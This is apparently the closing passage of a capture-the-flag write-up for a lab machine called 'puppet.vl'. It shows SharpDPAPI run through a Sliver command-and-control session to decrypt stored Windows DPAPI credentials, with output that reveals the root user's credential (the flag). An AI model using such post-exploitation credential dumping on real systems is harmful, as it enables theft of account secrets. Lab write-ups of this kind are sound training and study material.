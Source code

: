 ```Bash
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⢡⣿⣿⡿⠁⠀⢀⣠⡤⠄⠀⠀⠀⠀⠀⠰⠖⠒⠂⠤⡀⠀⢸⣿⣿⢹⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡟⢸⣿⣿⠇⠄⠂⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⠀⠀⠀⠁⢸⣿⣿⢸⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡇⣿⣿⣿⠀⠀⠀⣠⣤⣬⡑⠀⠀⠀⠀⠀⢀⣥⡶⠶⢦⣕⠀⢸⣿⣿⢸⣿⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⡇⣿⣿⣿⠀⢠⠾⠁⣀⡈⠋⠁⠀⠀⠀⠀⠀⠀⢠⣤⡀⠈⠇⢨⣿⣿⢸⣿⣿⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⣿⡇⣿⡿⣸⣣⠈⠐⠈⠛⠃⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠀⠀⠀⠂⣿⣿⡸⣿⣿⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⣿⣟⡄⣿⠇⣿⠪⢁⠀⢐⠒⠂⠀⠀⠀⠀⠀⠀⠀⠀⠈⠀⠉⠄⠐⢀⡼⣿⡇⠹⣿⣿⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣾⣿⢟⣾⣇⣿⢰⣿⣷⡄⠒⠀⠀⠂⠂⠀⠐⠒⠒⠒⠒⠒⠒⠀⠆⠀⠁⣿⡇⣿⣿⢠⡹⣿⣿⣿⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⣿⣿⢏⣾⣿⣿⠛⢸⣿⣿⣷⢄⣀⣀⣀⢤⣤⣤⣤⣤⣤⣤⣤⣤⣤⢦⣤⢲⢻⠇⣿⡿⣼⣷⡝⣿⣿⣿⣧⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⢀⣴⣿⣿⣿⢫⣾⣿⣿⣿⣠⢸⣿⣿⣿⣼⣼⣿⣬⡬⢉⠉⠉⠉⠉⢉⡩⢋⣾⣶⣾⡶⣱⣷⡿⣹⣿⣿⣿⡟⢿⣿⣿⣿⣆⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⣴⣿⣿⣿⡟⢁⣿⣿⣿⣿⣿⡏⢸⣿⣿⣿⣿⢟⡽⠋⠇⠀⠉⠒⠖⠊⠁⠀⠀⠊⡻⡟⣼⣿⣿⢳⣿⣿⣿⣿⣧⠀⠹⣿⣿⣿⡷⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⣿⣿⣿⡏⠀⢸⣿⣿⣿⣿⣿⣷⢸⣿⣿⡫⠓⠻⠠⣂⠈⠄⠀⠀⠀⠀⢀⠔⠁⣰⣷⣼⣿⣿⣿⣚⠿⣿⣿⣿⣿⡄⠀⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⣿⣿⣿⡇⠀⣾⣿⣿⣿⣿⡿⢯⣿⣿⠏⠀⠀⠂⢁⠋⠄⠀⠱⡄⠀⠐⠁⠀⡰⡋⢯⣿⣿⣿⡏⠉⠙⠚⢝⢿⣿⣿⣴⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⣿⣿⣿⡇⣼⣿⣿⣿⡿⠋⠀⣼⣿⠏⠀⠀⠐⠀⠂⠀⠈⠀⠀⠈⠁⠀⠀⣼⠌⡀⠈⢼⣿⣿⣧⠀⠀⠀⠀⠀⠻⣿⢻⣿⣿⡏⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⢹⣿⣿⡿⣿⣿⣿⡿⠁⠀⣰⣿⣯⠂⠀⠀⢆⠂⠀⡠⡀⠈⢄⠀⠀⡠⢀⠙⠐⡀⠁⠚⣿⣿⣿⡄⠀⢴⠀⠀⠀⢹⣾⣿⣟⣄⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⣸⣿⣿⣿⣹⣿⣿⠁⠀⣰⣿⢯⡷⠀⠀⢠⠂⡠⠊⠀⠀⠁⠢⢳⠀⠀⠀⠀⡄⠈⢀⠀⡟⣿⣿⣷⡀⢸⠀⠀⠀⣾⣿⣿⣹⣿⣷⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⢀⣼⣿⣹⣿⣿⣇⣿⠁⢆⣼⣿⠏⣸⡄⠀⠀⠀⠊⠀⠀⠀⡀⠀⠄⠁⠀⠀⠀⠀⠀⠀⠀⡀⠃⠘⢿⣿⣷⣸⠀⠀⠀⣿⣿⣷⡻⣿⣿⣿⣦⡀⠀⠀⠀⠀
⠀⠀⢀⣴⣿⣿⢿⣷⣻⣿⣿⡇⣠⣾⣿⡟⠀⣿⠀⠀⠀⠇⡐⠂⠈⠀⡠⠀⠂⠀⠁⠈⠂⠀⠘⠀⢀⠀⠀⠀⢩⢿⣿⣿⡄⠀⠀⢻⣿⣿⢹⣜⢿⣿⣿⣿⣄⠀⠀⠀
⠀⣴⣿⣿⣿⠃⣾⣿⢣⣿⣿⢱⣿⣿⣿⠃⢰⡏⠀⠀⠀⠂⠀⠁⡠⠪⠈⠀⠠⠀⡀⠀⠀⠡⡀⡀⡀⠀⡀⠀⠀⢯⣻⣿⣿⣆⠀⠈⣿⣿⣇⢿⣯⣿⣿⣿⣿⣷⡄⠀
⢸⣿⣿⣿⠇⠀⢿⣿⣿⣿⢃⣿⣿⣿⣿⠄⢸⠁⠀⠀⢘⣀⣵⡊⠀⠀⠀⢀⡀⠀⠀⠁⠐⠀⠔⣵⣄⣀⣠⠀⠀⠈⣷⡹⣿⣿⡇⠌⠘⣿⣿⡼⣿⡇⠙⢿⣿⣿⣿⡆
⢸⠻⣿⣿⠀⢀⣼⣿⣿⠃⢸⡿⣿⣿⣿⠀⡜⠀⠀⠀⡄⠀⢀⣀⣀⣀⢁⣀⡸⣍⣁⣠⣃⡸⠉⠀⠀⢀⣘⠀⠀⠀⠸⡇⣿⣿⡏⠀⠀⢹⣿⣿⣿⣿⠀⠀⢹⣿⣿⡇
⠀⠀⠈⢻⣴⣿⣿⣿⠃⠀⠸⡇⣿⣿⣿⠀⠂⠀⠀⠀⠛⠛⣶⣶⣿⣿⣮⣿⣵⣾⠿⠿⠿⠷⠾⠿⠿⢷⣶⡄⠀⠀⠀⣿⣿⣿⠃⠀⠀⠈⠹⣿⣧⡻⠀⠀⢸⣿⣿⡇
⠀⣄⣴⣿⣿⡿⠋⠂⠀⠀⠀⣇⣿⣿⣿⡈⠀⠀⠀⢠⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⢸⣿⡇⠀⠀⠀⣟⣿⣿⠀⠀⠀⡇⠀⠹⣿⣿⣄⠀⢸⣿⣿⠀

The final flag is the password of the user "root@puppet.vl".
```


To retrieve it, I used SharpDPAPI:
```bash
sliver (puppet-mtls) > sharpdpapi machinetriage                   
                                                                   
[*] sharpdpapi output:
                                                                   
  __                 _   _       _ ___                         
 (_  |_   _. ._ ._  | \ |_) /\  |_) |  
 __) | | (_| |  |_) |_/ |  /--\ |  _|_    
                |                      
  v1.12.0

Folder       : C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

  CredFile           : 39FAB9BA3A19E88594B1D50B5E44AAA4                                                                                

    guidMasterKey    : {e2de4c34-3c46-411f-91cb-ab2c9cd2f205}
    size             : 592                                                                                                             
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : Local Credential Data
                                                                   
    LastWritten      : 10/12/2024 1:44:00 AM
    TargetName       : Domain:batch=TaskScheduler:Task:{ACFD7F3B-51A4-4B11-8428-F287E956EC4C}
    TargetAlias      : 
    Comment          : 
    UserName         : PUPPET\root
    Credential       : VL{2<..SNIP..>31}

```
